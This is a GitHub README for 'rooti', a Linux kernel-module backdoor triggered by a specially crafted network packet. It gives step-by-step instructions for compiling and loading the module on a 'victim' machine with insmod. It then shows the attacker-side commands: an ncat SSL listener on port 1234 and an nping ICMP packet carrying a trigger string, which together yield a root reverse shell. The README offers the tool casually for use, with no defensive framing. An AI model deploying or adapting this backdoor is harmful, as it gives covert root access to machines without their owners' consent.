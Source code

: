 # rooti
Cool little backdoor for linux.
This is a kernel module that is triggered by a specially crafted network packet.
Use with caution!

# Installation and requierments
There are two parts - on the attacked machine, and on our machine.
Needed:
- Suitable ncat binary - both for us and the destination.
- This repository.

### On victim
- Clone or copy the repository to destination and just type "make". 
(note: you can always compile the LKM beforehand - but make sure you do it for the right kernel version!)
- Now, you should see a .ko file (main.ko for now - 26.04.2020).
Type: (sudo) insmod main.ko
- To check it worked (only with debug mode on): cat /var/log/kern.log | tail 
And make sure you see some notes there.

### On our machine
- Listen on port 1234 with ncat, ssl enabled:
ncat -vklp 1234 --ssl
- Ping the destination using the payload "hello"
(sudo) nping -c 1 --icmp -dest-ip <dest-ip> --data-string 'hello'   (note: the data-string may change)
- You should recieve a connection with a root shell.
  
# Enjoy!
